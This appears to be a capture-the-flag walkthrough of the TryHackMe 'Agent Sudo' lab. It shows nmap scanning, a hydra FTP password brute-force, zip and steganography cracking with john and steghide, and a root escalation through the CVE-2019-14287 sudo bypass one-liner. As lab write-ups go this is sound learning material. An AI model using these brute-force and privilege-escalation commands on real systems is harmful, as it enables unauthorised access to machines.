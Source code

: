 ### IP `10.10.59.244`

### 1. Scanning

```
nmap -Pn -A 10.10.59.244  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-12 15:14 EST
Nmap scan report for 10.10.59.244
Host is up (0.23s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are 3 ports: 21,22,80

On the webpage, there is a note saying to change `User-Agent` ito agent's codename in order to see a website, so here comes Burp.
                                                                         
I change browser's data in `User-Agent` section to `C` and get to a website:

```
Attention ****

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```

While knowing a username and that there is 21 FTP open and also that password is weak, I run hydra to bruteforce it:


`hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.59.244 ftp`

after few moments I got it:

`[21][ftp] host: 10.10.59.244   login: chris   password: c*****l`
                                                                                        
#### 2. FTP Access and bruteforcing with john

With username and password I logged in ftp and see 3 files:

```
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

I downloaded all of them to my local machine, checked with `steghide` but no success. I used `binwalk` and it turns out there is a hidden zip file inside cutie.png so I extract it:

```
└─$ binwalk cutie.png -e

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

and then zip2john to bruteforce and get a passphrase to extract afterwards

`zip2john 8702.zip > agentjpass.txt`

```
└─$ john agentjpass.txt 

a***n            (8702.zip/To_agentR.txt)
```

Next step is extracting that file:

`7z e 8702.zip`

to get another note:

```
└─$ cat To_agentR.txt      
Agent C,

We need to send the picture to 'QX****Ux' as soon as possible!

By,
Agent R
```

#### 3. Decoding found phhrase with Magic and Cyberchef

I pass that word to Cyberchef and Magic which gives me another one:

`Magic from Cyberchef to decode QXJlYTUx --->> A****1`


#### 4. Extracting one of files

Right now I have a passphrase to another file and use steghide to check it:

```
steghide info cute-alien.jpg

"cute-alien.jpg":
  format: jpeg
  capacity: 1.8 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "message.txt":
    size: 181.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

and extract hidden message.txt inside it:
                                                                                                         
```
└─$ steghide extract -sf cute-alien.jpg
Enter passphrase: 
wrote extracted data to "message.txt".
```

In the end I can cat a message and get username / password for another user:

```
Hi j***s,

Glad you find this message. Your login password is h********!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
                                                                                                         
#### 5. SSH to a server and escalation to root         

It is possible to get a user flag now and one done I check user's permissions:                                                                                            

```
~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```
but there is nothing, so was curious what version is it to possibly find an exploit:

```
sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```
Quick research gives me `CVE-2019-14287`

If we add a payload in front of sudo, we can get root. 

so here I go:

```
james@agent-sudo:~$ sudo -u \#$((0xffffffff)) /bin/bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
```

I am root, so now the flag:

```
root@agent-sudo:~# ls /root
root.txt

root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a******************062

By,
DesKel a.k.a Agent R
```